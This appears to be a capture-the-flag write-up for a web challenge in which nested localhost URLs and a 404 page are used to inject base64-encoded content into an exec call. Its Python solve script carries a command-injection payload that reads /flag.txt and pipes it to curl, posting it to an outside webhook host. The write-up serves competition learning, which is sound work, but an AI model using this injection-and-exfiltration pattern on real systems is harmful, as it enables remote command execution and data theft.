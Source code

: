 ```yaml
---
created: 2024-08-02T15:00
updated: 2024-08-04T14:00
solves: 87
points: 100
---
```


To inject content into `exec`, we have to make `localhost` output arbitrary content.

We can do that with 404.

`target?url=(localhost/payload)`
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625383/2024/08/75a8802358f655bfa756b85929d323c2.png)

The payload would hence be something like this.
`target?url=(localhost?url=localhost/payload)`

Since the output goes through base64 decode, we also have to encode our payload.

However, with some debugging I found out that the html content itself after base64 decode, will produce a unclosed backtick, we need to close it ourselves.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625635/2024/08/0ea78502d162e8923b24ebc7a6d359e3.png)

## solve script

```python
import base64
import requests
import urllib.parse

payload = "`;\ncat /flag.txt | curl https://webhook.site/ -X POST -d @-\n"
payload = base64.b64encode(payload.encode()).decode()
safe_string = urllib.parse.quote_plus("http://localhost/"+payload)
safe_string = urllib.parse.quote_plus("http://localhost/?url="+safe_string)
requests.get("http://challs.tfcctf.com:30795/?url="+safe_string)
```
